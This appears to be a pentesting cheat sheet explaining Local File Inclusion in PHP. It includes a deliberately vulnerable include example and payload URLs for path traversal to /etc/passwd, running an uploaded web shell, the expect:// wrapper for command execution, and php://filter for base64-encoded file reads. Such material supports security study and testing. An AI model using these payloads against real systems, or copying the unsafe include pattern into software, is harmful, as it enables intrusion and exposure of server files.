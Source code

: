 ## LFI Local File Inclusion
- An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server.
- LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.
- Example:
````
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
````
- In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.
````
http://example.com/?file=../../uploads/evil.php
````
- Even without the ability to upload and execute code, a Local File Inclusion vulnerability can be dangerous. 
- An attacker can still perform a Directory Traversal / Path Traversal attack using an LFI vulnerability as follows.
````
http://example.com/?file=../../../../etc/passwd
````
- Testing 
- If you see a webpage URL look like this:
````
/script.php?page=index.html 
````
Test for:
````
/script.php?page=../../../../../../../../etc/passwd
````
### PHP Wrappers
- PHP has a number of wrappers that can often be abused to bypass various input filters.
#### PHP Expect Wrapper
- `PHP expect://` allows execution of system commands, unfortunately the expect PHP module is not enabled by default
````
php?page=expect://ls
````
#### PHP php://filter
`php://filter` allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.
````
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
````
- `php://filter` can also be used without base64 encoding the output using:
````
?page=php://filter/resource=/etc/passwd
````
### Resources
- https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
























